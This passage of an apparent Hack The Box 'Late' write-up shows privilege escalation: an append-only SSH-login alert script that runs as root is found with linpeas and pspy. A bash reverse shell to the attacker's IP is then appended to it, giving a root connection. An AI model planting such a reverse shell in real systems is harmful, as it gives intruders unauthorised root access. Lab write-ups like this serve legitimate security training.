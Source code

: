 From here I will upload **linpeas** and execute to find privilege escalation paths. Linpeas shows an interesting file that we can write to, **/usr/local/sbin/ssh-alert.sh**.  

<img width="503" alt="image" src="https://user-images.githubusercontent.com/114961392/204174544-4dab6f6c-f217-40d2-a46a-6ec0f2c6c08c.png">

Let's have a look at the file:  

<img width="387" alt="image" src="https://user-images.githubusercontent.com/114961392/204174960-4320bb71-5653-4b72-be2b-3edad9bc8a31.png">

It is just a simple script that sends an email to root@late.htb every time someone logs into SSH. Checking the permissions for the file reveals:  

<img width="386" alt="image" src="https://user-images.githubusercontent.com/114961392/204175281-807699a3-7848-4ed7-9658-a5104c9c057a.png">

And checking the file attributes reveals that the file only allows appending, not writing.  

<img width="284" alt="image" src="https://user-images.githubusercontent.com/114961392/204175454-b35a6fc9-c5ef-49bb-8eb2-edbfa114c5a4.png">

So we can add something to the end of the file however we can not write over it completely.  
Now let's check with [PSPY](https://github.com/DominicBreuker/pspy) how the script is running. I will upload pspy to the target machine then log in and out of SSH to see what happens:  

<img width="454" alt="image" src="https://user-images.githubusercontent.com/114961392/204178079-6f312f8c-b95c-44d4-9704-f0ec0c9b07dd.png">

This shows that it is running the script everytime someone logs onto SSH.  
Now let's append the script file so it connects back to our listener.  
**echo "bash -i >& /dev/tcp/10.10.14.18/4444 0>&1" >> /usr/local/sbin/ssh-alert.sh**  

<img width="491" alt="image" src="https://user-images.githubusercontent.com/114961392/204179064-58cf7f82-016d-4175-942e-76f6b22ce4b4.png">

Then set up another netcat listener and exit the SSH connection so it executes the appended script.  

<img width="408" alt="image" src="https://user-images.githubusercontent.com/114961392/204179277-5291e329-c341-48ec-8d52-55f2c81120df.png">

After exiting, the netcat listener has a root connection. From here we can go ahead and capture the root flag.  

